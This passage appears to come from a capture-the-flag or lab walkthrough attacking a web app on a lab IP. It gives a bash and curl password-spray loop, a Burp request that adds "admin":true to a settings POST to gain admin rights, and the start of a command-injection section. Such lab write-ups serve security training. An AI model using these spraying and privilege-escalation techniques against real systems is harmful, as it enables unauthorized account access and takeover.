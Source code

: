 We’ll use a bash script to perform the password spray, using this username list as input.

```
kali@kali:~$ for user in $(cat users.txt); do curl 'http://192.168.120.127/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
OK
dev-acct
kali@kali:~$
```

### Impersonating Admin User

We are able to login successfully with the `dev-acct:password` credentials. As we log in to the website with these credentials, the  login form disappears, allowing us to further investigate the **/api/settings** endpoint.

The Burp history reveals that our POST request to **/api/settings** now returns a `200 OK` instead of `401 Unauthorized`. In addition, the POST requests are returning JSON data containing our account settings:

```
{"color-theme":"light","lang":"en","admin":false}
```

Let’s click on the `Dark` button and then forward the captured request to the Repeater tab in Burp. In the body of the request, we’ll append `"admin":true` to the JSON as follows:

```
POST /api/settings HTTP/1.1
Host: 192.168.120.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 35
Origin: http://192.168.120.127
Connection: close
Referer: http://192.168.120.127/
Cookie: connect.sid=s%3AKOYlSeEABkSVNpIYQj3XwAhlitHWC8lt.Fb%2Be3zVcpIClXV1Q4xNOShygp0xWFiywDm%2FNPLLRh%2FA

{"color-theme":"dark","admin":true}
```

After we send this to the server, all subsequent requests now include `"admin":true`. That means that we are now successfully impersonating the admin user in the application.

### Command Injection

When we refresh the page, we discover that we can now perform a  backup of the web app’s log files. The interface contains a text field  (with the default value of `Logbackup`), and a `Backup Logs` button. Leaving the text field blank and clicking the button returns the following:

```
Backup created
Created backup: Created backup: /var/log/app/logfile-undefined.1602522817206.gz
```
